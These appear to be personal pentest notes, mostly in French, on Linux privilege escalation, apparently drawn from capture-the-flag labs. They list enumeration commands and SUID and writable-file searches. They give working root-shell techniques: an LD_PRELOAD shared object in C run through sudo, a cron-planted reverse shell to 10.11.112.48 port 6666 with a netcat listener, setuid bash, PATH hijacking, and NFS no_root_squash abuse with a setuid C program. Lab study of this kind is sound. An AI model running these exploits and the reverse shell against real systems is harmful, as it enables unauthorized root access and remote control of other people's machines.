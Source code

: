 	==Repérage:==
hostname
uname -a
/proc/version
/etc/issu
id
ls /etc/passwd | cut -d ":" -f ou | grep home
/etc/shadow
ps aux
ls -la
env
netstat -ano
netstat -ltp
sudo -l



- `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
- `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
- `find / -type d -name config`: find the directory named config under “/”
- `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
- `find / -perm a=x`: find executable files
- `find /home -user frank`: find all files for user “frank” under “/home”
- `find / -mtime 10`: find files that were modified in the last 10 days
- `find / -atime 10`: find files that were accessed in the last 10 day
- `find / -cmin -60`: find files changed within the last hour (60 minutes)
- `find / -amin -60`: find files accesses within the last hour (60 minutes)
- `find / -size 50M`: find files with a 50 MB size
- `find / -writable 2>/dev/null`
 

find avec -type f 2>/dev/null permet d'avoir un truc plus clean sans montrer les erreurs

- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
- `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
- `find / -name perl*`
- `find / -name python*`
- `find / -name gcc*`
- `find / -perm -u=s -type f 2>/dev/null` will list files that have SUID or SGID bits set.

[
**LD_PRELOAD**

C'est une fonction qui permet à un programme d'utiliser des libraries partager,  avec la variable  env_keep tu peux générer une librarie partager avec ton propre code

Comment-faire matéo ?

-TU check si y'a LD_PRELOAD avec env_keep
-t'écrit un petit programme en C en tant qu'objet partagé
-tu lance le programme en sudo avec le LD qui poite vers ton .so (share object)

ex:

`#include <stdio.h>`  
`#include <sys/types.h>`  
`#include <stdlib.h>`  
  
`void _init() {`  
`unsetenv("LD_PRELOAD");`  
`setgid(0);`  
`setuid(0);`  
`system("/bin/bash");`  
`}`

tu le save en tatata.c et le compile avec gcc dans un so

commande : 
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`![[Pasted image 20241201204056.png]]
hop maintenant tu peux le lancer avec ce que tu veux en sudo

faut quand même lui préciser le LD
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`![[Pasted image 20241201204248.png]]
[[Crack  etc shadow]]

On peut aussi utiliser les Capabilities 

utilise getcap pour voir les capabilities active 
getcap -r / va générer beaucoup d'erreur 
fautpenser a le 2>/dev/null

SI tu peux toucher au crontab

`#!/bin/bash
`bash -i >& /dev/tcp/10.11.112.48/6666 0>&1`

into netcat

nc -lvnp 6666
gg t root
plus simple  -> `chmod u+s /bin/bash

Variable path

echo $PATH

find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

si t'a pas de dossier que tu peux modif dans path bah ajoute le 

export PATH=/tmp:$PATH
ici on l'ajoute dans tmp

[[path script esc]]

Y'a NFS aussi

si nfs server est installer
il est dans /etc/exports

cat /etc/exports
tu check si y'a un vecteur "no_root_squash"
si il y est tu peux crée un exécutable avec le SUID bit de mis et le run sur la victime

étape 1

sur ta machine showmount -e "ip"

étape 2

tu fait un  mkdir sur l'endroit que tu veux
mount -o rw "ip":"victimedos" /tmp/"dossier"

étape 3

petit script la ou tu la monter

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```

puis tu le compile


